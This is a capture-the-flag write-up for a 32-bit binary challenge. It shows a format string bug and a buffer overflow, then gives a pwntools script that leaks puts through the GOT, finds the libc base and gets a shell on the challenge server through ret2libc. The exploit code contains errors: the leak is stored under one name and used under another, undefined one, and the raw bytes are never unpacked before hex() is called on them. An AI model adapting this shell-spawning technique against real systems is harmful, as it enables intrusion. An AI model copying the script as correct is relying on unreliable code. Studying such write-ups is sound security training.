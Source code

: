 # Smash
Smash was a very cool challenge where you were given the `libc` version used by the binary. You had to bypass ASLR and then execute a ret2libc attack.

## Analysis
As per usual, run a quick `checksec`:

![checksec](images/checksec-smash.png)

Luckily for us, PIE is disabled and there is no canary. That makes our job much easier.<br>

Let's run it and see what happens.

![test](images/smash-test.png)

Hmm, our input is printed back to us again. Is there another format string bug?

![format string](images/smash-fs.png)

Indeed there is! Is a BoF possible this time?

![buffer overflow](images/smash-bof.png)

Awesome.<br>

There's nothing particularly interesting in the decompilation - `main` takes input and calls `say_hello`, which prints back to you.

![rabin2](images/smash-rabin2.png)

No interesting strings either. As we are given the `libc`, everything points to a good old ret2libc attack.

## Exploitation
As we only had one input, the logical approach would be to use a ret2plt to leak the address of puts in `libc` from the [global offset table](https://github.com/ir0nstone/pwn-notes/blob/master/concepts/plt_and_got.md) and call main again to let us have another input.

```python
from pwn import *

elf = context.binary = ELF('./hello')

# Adapt for remote
if args.REMOTE:
    libc = ELF('./libc-remote.so')
    p = remote('chall.csivit.com', 30046)
else:
    libc = elf.libc
    p = elf.process()


# ret2plt
p.clean(1)

payload = flat(
    b'A' * 136,
    elf.plt['puts'],
    elf.symbols['main'],        # 32-bit - return address comes directly after the function call
    elf.got['puts']             # Parameter comes after the return address
)

p.sendline(payload)

p.recvline()                    # This is the 'Hello, <>!' string - we don't need this

puts_libc = p.recv(4)           # The puts call. We only need the first 4 bytes (the GOT entry of puts)
log.success(f'Puts@LIBC: {hex(puts_libc)}')

libc.address = puts_leak - libc.symbols['puts']
log.success(f'Libc base: {hex(libc.address)}')

p.clean(1)

# Final ret2libc
payload = flat(
    b'A' * 136,
    libc.symbols['system'],
    libc.symbols['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)
p.interactive()
```